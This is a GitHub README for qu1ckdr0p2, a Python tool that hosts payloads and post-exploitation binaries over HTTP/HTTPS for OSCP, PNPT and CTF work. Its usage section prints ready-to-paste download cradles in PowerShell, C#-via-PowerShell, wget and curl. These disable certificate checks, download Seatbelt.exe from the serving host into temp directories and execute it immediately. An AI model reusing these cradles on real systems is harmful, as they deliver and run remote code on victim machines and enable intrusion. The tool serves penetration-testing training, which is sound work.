 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve --help
serv serve -f implant.bin --https 443
serv serve -f file.example --http 8080
```

### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search seatbelt
[→] Path: ~/.qu1ckdr0p2/windows/Seatbelt.exe
[→] Alias: seatbelt
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Alias: seatbelt_net40_any
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x64/Seatbelt.exe
[→] Alias: seatbelt_net40_x64
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x86/Seatbelt.exe
[→] Alias: seatbelt_net40_x86
[→] Use: 4

(...)

$ serv serve --search seatbelt -u 2
[→] Serving: ../../../.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Protocol: https
[→] IP address: 192.168.1.5
[→] Port: 443
[→] Interface: eth0
[→] Using cert: /home/byinarie/.qu1ckdr0p2/certs/cert.pem
[→] Using key: /home/byinarie/.qu1ckdr0p2/certs/key.pem
[→] CTRL+C to quit

[→] URL: https://192.168.1.5:443/Seatbelt.exe

[↓] csharp_ignore_tls:
Add-Type -TypeDefinition "using System.Net;using System.Security.Cryptography.X509Certificates;public class SSLValidator {public static void Ignore() {ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;}}" -Language CSharp; [SSLValidator]::Ignore(); $webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe');Start-Process 'c:\windows\temp\Seatbelt.exe'

[↓] wget_ignore_tls:
wget --no-check-certificate https://192.168.1.5:443/Seatbelt.exe -O /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] curl_ignore_tls:
curl -k https://192.168.1.5:443/Seatbelt.exe -o /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] powershell_ignore_tls:
$AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols; $WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe'); Start-Process 'c:\windows\temp\Seatbelt.exe'
```




## License

MIT

---


